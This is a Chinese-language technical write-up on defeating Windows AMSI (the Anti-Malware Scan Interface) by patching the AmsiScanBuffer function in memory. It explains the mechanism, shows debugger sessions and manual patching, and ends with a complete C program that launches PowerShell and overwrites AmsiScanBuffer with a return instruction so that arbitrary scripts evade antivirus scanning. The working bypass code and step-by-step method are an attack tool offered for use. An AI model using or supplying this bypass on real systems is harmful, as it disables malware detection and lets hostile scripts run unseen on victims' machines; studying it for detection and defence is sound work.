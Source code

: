 # 基于内存补丁的AMSI绕过

## AMSI简介

AMSI的全称是反恶意软件扫描接口（Anti-Malware Scan Interface），是从Windows 10开始引入的一种机制。AMSI是应用程序和服务能够使用的一种接口，程序和服务可以将“数据”发送到安装在系统上的反恶意软件服务（如Windows Defender）。

服务和应用程序可以通过AMSI来与系统中已安装的反恶意软件通信。为了完成该任务，AMSI采用了hook方法。比如，AMSI会hook WSH（Windows Scripting Host）及PowerShell来去混淆并分析正在执行的代码内容。这些内容会被“捕获”，并在执行之前发送给反恶意软件解决方案。

在Windows 10上，实现AMSI的所有组件如下所示：

* UAC（用户账户控制），安装EXE、COM、MSI或者ActiveX时提升权限
* PowerShell（脚本、交互式使用以及动态代码执行）
* Windows Script Host（`wscript.exe`或者`cscript.exe`）
* JavaScript以及VBScript
* Office VBA宏

AMSI整体架构如下图所示：

![](../.gitbook/assets/image%20%2832%29.png)

简单的说AMSI就是这玩意:

![](../.gitbook/assets/image%20%2868%29.png)

## 技术原理&流程

根据前人的研究，我们知道字符串是否敏感是由amsi.dll中的AmsiScanBuffer函数来进行判断的，而内存补丁是一种较为便捷的技术，我们可以对这个函数进行修补，使其丧失判断能力，这样我们就能自由执行任意powershell脚本，当然前提是脚本文件没有被杀软干掉。

实现方式有很多种，如注入一个内存修补功能的dll、获取amsiscanbuffer函数地址使用winapi进行修补。

这里我们使用获取函数地址对其进行修补，流程如下：

1. 创建一个powershell进程
2. 获取amsiscanbuffer函数地址
3. 修改函数内存空间属性
4. 修补函数执行体

前面文章有阐述过目前windows不同进程加载同一个系统模块的地址是一致的，所以我们可以使用本地加载dll获取对应函数地址去修补其他进程的该函数。

> 根据微软官方文档，`AmsiScanBuffer`函数应该返回`HRESULT`类型值，这是一个整数值，用来表示操作是否成功。在我们的例子中，如果该函数成功，那么就应当返回`S_OK`（`0x00000000`），否则应该返回`HRESULT`错误代码。
>
> 这个函数的主要功能是返回需要扫描的内容是否存在问题，这也是`result`变量会作为参数传递给`AmsiScanBuffer`函数的原因所在。这个变量的类型为`AMSI_RESULT`枚举类型。
>
> 对应的枚举原型如下所示：
>
> ```text
> typedef enum AMSI_RESULT {
>     AMSI_RESULT_CLEAN,
>     AMSI_RESULT_NOT_DETECTED,
>     AMSI_RESULT_BLOCKED_BY_ADMIN_START,
>     AMSI_RESULT_BLOCKED_BY_ADMIN_END,
>     AMSI_RESULT_DETECTED
> };
> ```
>
> 在函数执行过程中，待分析的内容会被发送到反恶意软件服务，后者会返回`1`到`32762`（含）之间的一个整数。整数值越大，则代表风险越高。如果证书大于或等于`32762`，那么就会将其判断为恶意数据，加以阻止。随后系统会根据返回的整数值来更新`AMSI_RESULT`变量值。
>
> 默认情况下，该变量处于“正常”（“无害”）值状态，因此，如果我们修改了函数指令，使其永远不会将待分析的内容发送给反恶意软件服务，并且返回`S_OK` `HRESULT`结果值，那么这些内容就会被当成无害数据。
>
> 在汇编语言中，`EAX`（32位）以及`RAX`（64位）寄存器始终包含函数的返回值。因此，如果`EAX`/`RAX`寄存器值等于0，并且如果执行了`ret`汇编指令，那么该函数就会返回`S_OK` `HRSULT`，不会将待分析数据发送给反恶意软件服务。

~~事实上对于字符串的拦截工作是在AmsiScanBuffer函数内完成的,并非在AmsiScanBuffer返回后由其他函数拦截，这也解释了为什么我们直接ret也能绕过AMSI\(此时RAX内存放着AmsiScanBuffer的地址，无论如何也远大于32762\)。~~

这里写的有问题，今天自己去调了一下，返回值 实际上是保存在堆栈对齐后的\[rsp+28\]的位置。

检讨一下这里确实主观臆测了。

现在我们测一下......

首先在AmsiScanBuffer下一个断点。

```text
0:029> bm Amsi!AmsiScanBuffer
SYMSRV:  BYINDEX: 0x3
         c:\symbols*http://msdl.microsoft.com/download/symbols
         Amsi.pdb
         C010A935E7681F4F58B28C6AA852B23A1
SYMSRV:  PATH: c:\symbols\Amsi.pdb\C010A935E7681F4F58B28C6AA852B23A1\Amsi.pdb
SYMSRV:  RESULT: 0x00000000
DBGHELP: amsi - public symbols  
        c:\symbols\Amsi.pdb\C010A935E7681F4F58B28C6AA852B23A1\Amsi.pdb
  1: 00007ffb`56bd2710 @!"amsi!AmsiScanBuffer"
```

断下来的时候查看一下rdx\(第二个参数\);

```text
0:004> g
Breakpoint 1 hit
amsi!AmsiScanBuffer:
00007ffb`56bd2710 4c8bdc          mov     r11,rsp
0:025> db rdx
000002d6`892c3984  22 00 41 00 6d 00 73 00-69 00 53 00 63 00 61 00  ".A.m.s.i.S.c.a.
000002d6`892c3994  6e 00 42 00 75 00 66 00-66 00 65 00 72 00 22 00  n.B.u.f.f.e.r.".
000002d6`892c39a4  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
```

## 手工操作

创建一个powershell进程

![](../.gitbook/assets/image%20%2870%29.png)

调试器附加并定位AmsiScanBuffer函数

![](../.gitbook/assets/image%20%2814%29.png)

修补该函数使其直接返回\(具体细节大家可以使用ida和x64dbg跟一下\)。

![](../.gitbook/assets/image%20%2866%29.png)

![](../.gitbook/assets/image%20%2863%29.png)

绕过AMSI。

![](../.gitbook/assets/image%20%2845%29.png)

## 代码实现

由于powershell版的内存补丁绕过在互联网上到处都是，且有被标黑，这里就不贴出来了\(好吧其实是我懒\)，这里我们其实也有多种实现思路，可以查找运行中的powershell.exe进程来进行修补，也可以自己创建一个新的powershell进程进行修补，这里采用新创建的powershell进行修补。

```text
#include <Windows.h>
#include <stdio.h>

int main() {
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	CreateProcessA(NULL, (LPSTR)"powershell -NoExit dir", NULL, NULL, NULL, NULL, NULL, NULL, &si, &pi);

	HMODULE hAmsi = LoadLibraryA("amsi.dll");
	LPVOID pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");

	Sleep(500);

	DWORD oldProtect;
	char patch = 0xc3;

	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
	WriteProcessMemory(pi.hProcess, (LPVOID)pAmsiScanBuffer, &patch, sizeof(char),NULL);
	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, oldProtect, NULL);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	FreeLibrary(hAmsi);
	return 0;
}
```

![](../.gitbook/assets/image%20%28113%29.png)

## LINKS

{% embed url="https://www.contextis.com/en/blog/amsi-bypass" %}

{% embed url="https://www.anquanke.com/post/id/168210" %}

{% embed url="https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html" %}

{% embed url="https://www.anquanke.com/post/id/180281" %}



